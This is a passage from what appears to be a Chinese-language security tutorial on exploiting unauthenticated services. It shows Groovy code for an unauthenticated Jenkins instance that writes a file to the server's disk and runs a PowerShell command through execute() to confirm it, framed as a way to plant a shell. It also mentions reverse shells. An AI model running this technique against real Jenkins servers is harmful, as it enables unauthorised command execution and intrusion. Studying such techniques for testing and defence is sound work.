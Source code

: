 ![](../pictures/notauthority5.png)    


不想反弹试试 Terminal Plugin  
![](../pictures/notauthority6.png)    

2、Jenkins 未授权访问写 shell  

jenskins 是 java web 项目,我们用 java 的 File 类写文件  
```
new File("c://temp//secpulse.txt").write("""
1
2
3
""");
```
新建一个内容为1,2,3(每一行)的 1.txt 到 c 盘的 temp 文件夹,运行如下命令println “powershell dir c:\temp”.execute().text如果写成功,那么 secpulse.txt 就会在返回结果中!  

